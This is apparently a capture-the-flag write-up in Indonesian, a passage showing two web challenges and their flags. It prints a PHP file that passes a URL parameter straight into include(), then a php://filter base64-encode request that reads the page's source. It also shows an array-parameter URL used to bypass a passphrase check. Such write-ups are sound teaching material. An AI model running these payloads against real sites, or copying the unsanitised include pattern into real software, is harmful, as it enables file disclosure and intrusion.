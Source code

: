 `http://54.169.108.58:12345/?passphrase[]=???`

#### Flag
flag{4rr4ys_4re_al5o_5tring5}

#### Situs yang bocor

#### Soal
Diperlihatkan kode program untuk `index.php`

```php
<?php
    if(isset($_GET['resource'])){
        include($_GET['resource'] . '.php');
    } else {
        header("Location: /index.php?resource=main_page");
    }
?>
```

[Link][6]

#### Penyelesaian
Ketika melihat kode program, terdapat fungsi `include` yang mempunyai kerentanan terhadap *Local File Inclusion*.

Salah satu *LFI* yang bisa digunakan adalah menggunakan `php://filter`.

Berikut ini untuk melihat isi `main_page` yang akan di encode ke *base64*:

`http://54.169.108.58:8001/index.php?resource=php://filter/convert.base64-encode/resource=main_page`

Setelah di decode akan terlihat flag nya

![Alt Text](web-2.png "")

#### Flag
flag{0h_n0_php_y0ur_l3aking_4ll_0ver}
